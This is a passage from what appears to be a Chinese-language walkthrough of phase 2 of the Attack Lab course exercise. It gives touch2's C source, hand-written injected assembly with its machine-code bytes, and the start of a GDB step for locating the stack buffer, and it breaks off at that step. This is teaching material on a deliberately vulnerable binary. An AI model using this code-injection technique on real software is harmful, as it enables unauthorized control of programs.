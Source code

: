 第二阶段要求向程序中注入一小段代码，`ctarget` 中的 `touch2` 的 C 语言代码为：

```c
void touch2(unsigned val) {
  vlevel = 2;    /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

我们需要把自己的 cookie 作为参数传入，因为只有一个参数，所以参数应该被放入寄存器 `%rdi`，并使用`ret` 跳转。

我们写好需要注入的汇编代码，首先将 cookie 的值保存到寄存器 `%rdi`，然后将 `touch2` 的地址压入栈中，最后返回：

```
mov $0x59b997fa,%rdi
pushq $0x4017ec
ret
```

接下来，我们将汇编代码转换为机器码：

```
gcc -c touch2.s
objdump -d touch2.o > touch2.bytes
```

touch2.bytes 中的内容为：

```
touch2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

为了执行这段代码，我们需要使用阶段 1 中的方法，跳转到缓冲区的开始位置，去执行我们注入的代码。为了知道缓冲区的起始位置，我们使用 GDB 来调试程序，查看 `%rsp` 的值。我们在 0x4017b4 处设置断点：
